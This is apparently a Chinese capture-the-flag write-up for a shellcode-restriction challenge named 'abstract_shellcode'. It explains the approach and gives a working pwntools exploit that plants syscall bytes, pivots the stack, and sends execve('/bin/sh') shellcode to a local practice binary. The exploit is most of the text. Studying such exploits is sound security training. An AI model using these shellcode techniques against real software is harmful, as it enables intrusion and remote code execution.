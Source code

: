 ## abstract_shellcode


***

出题人：kadelin

![image-20240413224417937](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413224417937.png)

解题思路：利用前面判断no的输入往栈写入syscall的字节码，接着后面使用pop code将栈中的syscall填充到shellcode底部，接着再控制rax rdi rsi rdx再进行一次read往栈写入shellcode即可getshell

构造exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')


io = process('./ezshellcode')


io.recv()
io.send(b'\x0f\x05') # syscall


shellcode = """
push rdi
pop rax
push rbx
pop rdx
push rax
push rax
push rbp
pop rsp
pop rdx
pop rdx
pop rdx
push rdx
push rdx
push rdx
push rdx
push rdx
"""

payload = asm(shellcode) + b"\x5f"

#16

io.send(payload)

shellcode = shellcraft.execve("/bin/sh", 0, 0)


io.send(b"aa" + asm(shellcode))


io.interactive()

#ubuntu20.04

```



